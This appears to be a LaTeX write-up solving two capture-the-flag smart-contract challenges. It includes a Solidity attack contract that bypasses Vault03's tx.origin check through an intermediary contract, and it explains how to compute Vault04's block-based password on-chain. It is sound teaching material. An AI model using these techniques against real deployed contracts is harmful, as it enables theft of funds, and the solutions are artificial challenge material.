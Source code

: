 \documentclass[12pt]{article}
\begin{document}
\subsection*{Vault03: Origins}

To breach \texttt{Vault03}, you need to bypass the requirement that \texttt{msg.sender} must not be equal to \texttt{tx.origin}. This means the function must be called from a smart contract rather than directly from an externally owned account (EOA). 

Deploy the \texttt{Vault03Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which in turn calls \texttt{breachVault()}. Since the attack contract acts as an intermediary, \texttt{msg.sender} will be the attack contract, while \texttt{tx.origin} remains the player's address, satisfying the vault's condition. 

\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IVault03 {
    function breachVault() external returns (bool);
}

contract Vault03Attack {
    IVault03 public vault;

    constructor(address _vaultAddress) {
        vault = IVault03(_vaultAddress);
    }

    function attack() external returns (bool) {
        return vault.breachVault(); // msg.sender != tx.origin
    }
}
\end{lstlisting}

\noindent
This successfully updates \texttt{lastSolver} to the player's address, completing the challenge.

\subsection*{Vault04: On the Same Block}

To breach \texttt{Vault04}, you need to provide a correct password computed using \texttt{blockhash(block.number - 1)} and \texttt{block.timestamp}. Since both values are accessible during the same transaction, you can compute the correct password on-chain and submit it immediately. Deploy the \texttt{Vault04Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which computes the password and calls \texttt{breachVault()} with the correct value.
\end{document}
